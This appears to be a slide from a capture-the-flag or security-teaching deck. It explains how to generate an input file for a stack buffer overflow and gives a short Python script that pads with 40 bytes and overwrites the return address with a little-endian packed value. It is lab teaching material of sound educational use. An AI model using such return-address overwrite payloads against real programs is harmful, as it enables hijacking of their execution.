

6. What is the hidden flag?
This is an example of how to programmatically generate our desired text file.
Note that the return address must be given in little endian format to be correctly written into memory. This is easily achieved with the pack() method.
from struct import *

offset = "A"*40
ret_addr = 0x40060d
input = offset + pack("<Q", ret_addr)

file = open("exploit.txt", "w")
file.write(input)